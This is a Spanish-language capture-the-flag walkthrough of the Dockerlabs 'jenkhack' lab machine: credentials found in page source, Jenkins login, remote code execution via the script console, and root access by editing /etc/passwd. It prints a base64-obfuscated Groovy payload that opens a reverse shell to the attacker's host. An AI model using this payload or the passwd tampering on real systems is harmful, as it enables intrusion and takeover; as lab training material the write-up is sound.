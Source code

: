 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh jenkhack.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
<ins>La dirección IP de la máquina a vulnerar siempre es la 172.17.0.2</ins>.

  ![image](https://github.com/user-attachments/assets/45e470e5-72ea-430e-b2d2-e041eda34332)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/3ffe2470-909b-4bbe-9214-30491cfdad26)

Podemos ver que se encuentran abiertos los puertos ***80***, ***443*** y ***8080***, correspondientes a los servicios ***HTTP***, ***HTTPS*** y el ***servicio Jetty*** respectivamente.

Buscamos en el navegador la dirección http://172.17.0.2:80:

  ![image](https://github.com/user-attachments/assets/375f0110-2939-402a-92df-c4d248e6599e)

Miramos el código fuente de la página web en búsqueda de información importante:

  ![image](https://github.com/user-attachments/assets/2f51da53-89c0-4c38-a228-5dde3c734878)

Parece que  los valores de las etiquetas alt resaltadas pueden ser claves del servicio Jenkins, el cual corre por el puerto 8080 en el servidor.<br>
El nombre de usuario es "**jenkins-admin**" y su contraseña es "**cassandra**".

Nos vamos a la URL http://172.17.0.2:8080 e intentamos iniciar sesión con estas credenciales:

  ![image](https://github.com/user-attachments/assets/ba7807a7-beba-426e-83ee-78dd0b142623)

  ![image](https://github.com/user-attachments/assets/289c29ac-1a7b-484b-b5cb-996ba84fce59)

Logramos acceder de manera exitosa a la página web del servidor Jenkins.

Luego, vamos a intentar entrar en el sistema de la máquina víctima mediante ejecución de código remoto, lo que se conoce como un **ataque RCE** (*Remote Code Execution*).<br>
Para ello, escribimos en el buscador http://172.17.0.2:8080/script e insertamos el siguiente código malicioso:

**def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}"<br>
def process = cmd.execute()<br>
process.waitFor()**

Nos ponemos en escucha con NetCat por el puerto 443:

  ![image](https://github.com/user-attachments/assets/6cf484cb-d003-4be9-9075-1bbad77b4d96)
  
Hemos logrado acceder a la máquina vulnerable como el usuario "jenkins".<br>
Nuestra misión ahora es lograr realizar una escalada de privilegios que nos permita ingresar como el usuario root.

Miramos en el directorio *home* en búsqueda de otros usuarios existentes:

  ![image](https://github.com/user-attachments/assets/f2c76018-6fd0-4036-a98a-db2a29214bd3)
  
Hay un usuario llamado "jenkhack".<br>
Si buscamos algún archivo con ese nombre, encontraremos una carpeta que tiene una nota.<br> 
Para realizar la búsqueda ejecutamos **find / -name "jenkhack" 2>/dev/null** y leemos su contenido:

  ![image](https://github.com/user-attachments/assets/a50ab7e7-afb8-445c-aef4-e262b21a5562)

  ![image](https://github.com/user-attachments/assets/7be05ee9-4a94-4edb-9ffa-8a9434b89cd7)

La contraseña se encuentra encriptada, por lo que empleando [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true,'z')) probamos a descifrarla, siendo el lenguaje de codificación utilizado el Base85.

  ![image](https://github.com/user-attachments/assets/dd13a9b3-5816-4161-9b7f-6ac34b705b2a)

La contraseña del usuario "jenkhack" es "**jenkinselmejor**".

Intentamos cambiar de usuario para seguir con la escalada de privilegios:

  ![image](https://github.com/user-attachments/assets/a9a5cc93-9f9b-4889-99f1-899bdfb04d79)

Habiendo accedido como el usuario "jenkhack", revisamos con el comando **sudo -l** los archivos binarios que puede ejecutar el usuario de manera privilegiada.

  ![image](https://github.com/user-attachments/assets/88c1d057-3559-46f5-9693-83a6ccfc33ac)
  
Podemos ejecutar el binario /usr/local/bin/bash como usuario root, sin necesidad de ingresar su contraseña.

Ejecutamos el archivo binario y nos damos cuenta de que se trata de un script de bash:

  ![image](https://github.com/user-attachments/assets/af2f2e37-f27d-429e-bf3b-9518d0eecdc0)

Editamos el script para lograr vulnerar el fichero /etc/passwd y así convertirnos en usuario root.

  ![image](https://github.com/user-attachments/assets/ab43a45c-77bf-4657-a402-0b8d5af79fd6)

  ![image](https://github.com/user-attachments/assets/d2346c4b-ecc6-49f3-a70c-8491cfed6524)

Luego, ejecutamos el script escribiendo en la CLI **sudo /usr/local/bin/bash** y visualizamos el resultado de arrancarlo:

  ![image](https://github.com/user-attachments/assets/9690207b-0204-457e-814d-88c9b03db3a7)

Modificamos la línea del /etc/passwd correspondiente a root, eliminado la "x".

  ![image](https://github.com/user-attachments/assets/48bf18a3-2dfd-4fad-8203-d3f2641433f8)

Finalmente, accedemos como el usuario root con el comando **su**.

  ![image](https://github.com/user-attachments/assets/66ee3603-6a29-48df-99f4-6bf4bec4cf1c)

Hemos logrado acceder como el usuario root, por lo que actualmente contamos con todos los privilegios existentes en el sistema.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/058eb76d-0e60-4bd7-beed-3d45979896fc)
